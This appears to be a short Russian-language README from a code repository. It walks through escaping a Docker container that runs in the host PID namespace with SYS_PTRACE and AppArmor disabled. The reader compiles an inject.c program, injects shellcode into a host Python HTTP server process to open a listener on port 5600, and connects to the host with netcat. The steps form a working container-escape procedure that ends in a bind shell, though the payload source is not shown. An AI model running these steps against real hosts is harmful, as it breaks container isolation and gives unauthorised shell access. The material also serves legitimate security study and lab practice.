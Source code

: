 В контейнере должны быть тулзы
```bash
apt install vim # or any other editor
apt install gcc
apt install net-tools
apt install netcat
```
И контейнер должен быть в хостовом PID пространстве

Запуск python сервера (так как сплойта нестабильная, будем проводить опыты на нем)
```bash
/usr/bin/python3 -m http.server 8080
```

Запуск контейнера
```bash
docker run -it --pid=host --cap-add=SYS_PTRACE --security-opt apparmor=unconfined ubuntu bash
```

Эксплуатация уязвимости
```bash
# List process that runs on the host and container.
ps -eaf | grep "/usr/bin/python3 -m http.server 8080" | head -n 1
# Copy and paste the payload from inject.c
vim inject.c
gcc -o inject inject.c
# Inject the shellcode payload that will open a listener over port 5600
./inject <PID>
# Bind over port 5600
nc <HOST-IP> 5600
```